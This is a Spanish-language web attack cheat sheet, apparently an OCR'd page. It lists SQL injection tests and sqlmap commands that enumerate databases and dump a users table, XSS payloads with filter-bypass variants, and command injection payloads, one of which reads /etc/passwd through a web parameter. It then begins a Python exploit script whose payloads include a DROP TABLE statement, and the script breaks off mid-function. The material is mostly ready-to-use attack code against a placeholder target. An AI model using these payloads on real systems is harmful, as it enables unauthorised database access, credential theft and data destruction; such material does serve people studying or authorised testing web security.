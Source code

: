 ```bash
# Detección manual
curl "http://target.com/login.php?id=1'" 
curl "http://target.com/login.php?id=1 OR 1=1--"

# Con SQLMap
sqlmap -u "http://target.com/login.php?id=1" --dbs
sqlmap -u "http://target.com/login.php?id=1" -D database --tables
sqlmap -u "http://target.com/login.php?id=1" -D database -T users --dump

# POST injection
sqlmap -u "http://target.com/login.php" --data="username=admin&password=test" --dbs
```

### 2. Cross-Site Scripting (XSS)

```javascript
// Payloads básicos XSS
<script>alert('XSS')</script>
<img src=x onerror=alert('XSS')>
<svg onload=alert('XSS')>

// Bypass de filtros
<ScRiPt>alert('XSS')</ScRiPt>
javascript:alert('XSS')
<iframe src="javascript:alert('XSS')">
```

### 3. Command Injection

```bash
# Payloads de command injection
; ls -la
| whoami
& id
`whoami`
$(whoami)

# Ejemplo en parámetro web
curl "http://target.com/ping.php?host=127.0.0.1;cat /etc/passwd"
```

### 4. Script de Explotación Web

```python
#!/usr/bin/env python3
# web_exploit.py - Automatización de ataques web

import requests
import urllib.parse
import sys

def test_sql_injection(url, param):
    """Test básico de SQL injection"""
    payloads = [
        "'",
        "1' OR '1'='1",
        "1' UNION SELECT NULL,NULL,NULL--",
        "1'; DROP TABLE users--"
    ]
    
    print(f"[+] Testeando SQL injection en {param}")
    
    for payload in payloads:
        data = {param: payload}
        try:
```